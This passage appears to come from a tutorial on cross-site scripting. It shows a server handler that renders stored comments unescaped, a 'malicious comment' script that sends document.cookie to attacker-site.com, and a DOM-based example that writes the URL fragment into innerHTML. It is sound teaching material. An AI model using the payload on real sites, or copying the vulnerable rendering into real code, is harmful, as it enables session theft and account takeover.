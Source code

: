 ```javascript
  const comments = db.comments.findAll();
  let html = '<div class="comments">';
  comments.forEach(comment => {
    // Vulnerable: directly rendering stored content
    html += `<div class="comment">${comment.content}</div>`;
  });
  html += '</div>';
  res.send(html);
});
```

**Malicious Comment:**
```javascript
<script>
  // Steal session cookie
  fetch('https://attacker-site.com/steal', {
    method: 'POST',
    body: JSON.stringify({ cookie: document.cookie }),
    headers: { 'Content-Type': 'application/json' }
  });
</script>
```

### 3. DOM-based XSS

DOM-based XSS occurs when the vulnerability exists in client-side code rather than server-side code. The malicious script is executed through modifications to the Document Object Model (DOM) in the victim's browser.

**How it works:**
1. JavaScript code processes user input from sources like URL fragments, form inputs, or local storage
2. The input is used to dynamically update the DOM without proper sanitization
3. Malicious script executes when the DOM is modified

**Example Scenario:**
```html
<!DOCTYPE html>
<html>
<head>
    <title>Welcome Page</title>
</head>
<body>
    <div id="welcome"></div>
    <script>
        // Vulnerable: directly using URL fragment in DOM
        const urlFragment = window.location.hash.substring(1);
        document.getElementById('welcome').innerHTML = 
            `<h1>Welcome ${decodeURIComponent(urlFragment)}!</h1>`;
    </script>
</body>
</html>
```
